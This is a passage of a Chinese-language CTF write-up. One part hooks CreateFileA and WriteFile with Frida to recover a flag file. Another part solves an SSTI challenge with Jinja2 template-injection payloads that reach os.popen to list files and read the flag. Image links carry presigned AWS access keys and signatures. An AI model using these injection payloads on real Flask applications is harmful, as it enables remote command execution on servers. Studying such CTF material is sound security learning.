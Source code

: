 ![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2e0753df39587a7c1c4a47e57b5903ea.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949266&Signature=uubNd889Cmvpxcfu5NWQAXsSEss%3D)
> 發現檔案創建失敗

推斷是創檔案的路徑題目故意用無法使用的名稱，再次修改hook，指定一個正確的路徑
```javascript
state.originalPath = Memory.readUtf8String(args[0]);
log('CreateFileA - Original path: "' + state.originalPath + '"');

// Replace the invalid path with a valid one
const newPath = Memory.allocUtf8String('flag.txt');
args[0] = newPath;

// Save reference to prevent garbage collection
state.newPath = newPath;

log('CreateFileA - Replaced with: "flag.txt"');
```

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_81c8784dc5e5c79c35de9e4a7305a9ac.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949506&Signature=IaZ7DjoLaweKItjwV%2B25rbhxscU%3D)
> 成功創建`flag.txt`

打開`flag.txt`發現裡面是空的，推測寫入時也有問題，去找WriteFile
```javascript
// Log basic info
log('WriteFile called with handle: ' + args[0]);
log('WriteFile buffer content:');
log(hexdump(args[1]));
```
> args[0]是寫入的檔案，args[1]是寫入的檔案內容
>
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_a7d90890f29ca9edf3728fe9f7165e1b.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949518&Signature=I%2Bk5h%2BcfI5q5MuadBESfXMSNjZA%3D)


## Web
### SSTI1
模板注入
先測試這是什麼模板 `{{7*7}}`有反應
可能是python的Jinja2
使用`{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`查看當前檔案目錄

`{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}`取得flag

config是Jinja2(Flask的一個套件)的配置物件app.confing的實例

`config.__class__`是`<class 'flask.config.Config'>`

`config.__class__.__init__.__globals__`有一個`'os': <module 'os' from '/usr/lib/python3.8/os.py'>,`，所以可以藉此取得os

`.read()`的作用是將前面的`popen('cat flag')`輸出出來

---
`{{ "".__class__.__mro__[-1].__subclasses__()[132].__init__.__globals__['popen']("ls").read() }}`
其他取得os的辦法，但`132`這個值要自己找出來
